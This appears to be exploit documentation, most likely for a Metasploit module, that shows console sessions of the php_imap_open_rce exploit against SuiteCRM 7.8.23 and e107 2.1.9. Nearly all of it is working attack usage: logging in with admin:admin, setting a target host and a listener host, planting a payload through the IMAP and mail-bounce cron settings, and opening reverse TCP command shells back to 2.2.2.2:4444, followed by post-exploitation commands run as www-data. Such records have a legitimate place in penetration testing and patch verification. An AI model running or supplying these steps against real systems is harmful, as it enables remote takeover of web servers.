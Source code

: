 ### SuiteCRM 7.8.23 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (suitecrm.rb)> use exploit/linux/http/php_imap_open_rce
  resource (suitecrm.rb)> set target 1
  target => 1
  resource (suitecrm.rb)> set TARGETURI /
  TARGETURI => /
  resource (suitecrm.rb)> set USERNAME admin
  USERNAME => admin
  resource (suitecrm.rb)> set PASSWORD admin
  PASSWORD => admin
  resource (suitecrm.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (suitecrm.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (suitecrm.rb)> set verbose true
  verbose => true
  resource (suitecrm.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Loading login page
  [*] Logging in as admin:admin
  [+] Login Success
  [*] Loading InboundEmail page
  [+] Sending payload with group_id f047031d-1697-3d0d-bd39-5bf499e5470a
  [*] IMAP server config left on server, manual removal required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:32806) at 2018-11-20 18:31:40 -0500
  
  uname -a 
  Linux ubuntu1604 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### e107 2.1.9 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (e107.rb)> use exploit/linux/http/php_imap_open_rce
  resource (e107.rb)> set target 2
  target => 2
  resource (e107.rb)> set TARGETURI /
  TARGETURI => /
  resource (e107.rb)> set USERNAME admin
  USERNAME => admin
  resource (e107.rb)> set PASSWORD admin
  PASSWORD => admin
  resource (e107.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (e107.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (e107.rb)> set verbose true
  verbose => true
  resource (e107.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Logging in as admin:admin
  [+] Login Success
  [*] Checking if Cron is enabled for triggering
  [+] Storing payload in mail settings
  [*] Loading cron page to execute job manually
  [+] Triggering manual run of mail bounce check cron to execute payload with cron id 3 and etoken 3b6aa8ca02dbd2bf8218874606c5e2f1
  [*] IMAP server config left on server, manual removal required.
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:50742) at 2018-11-23 20:01:13 -0500
  ```
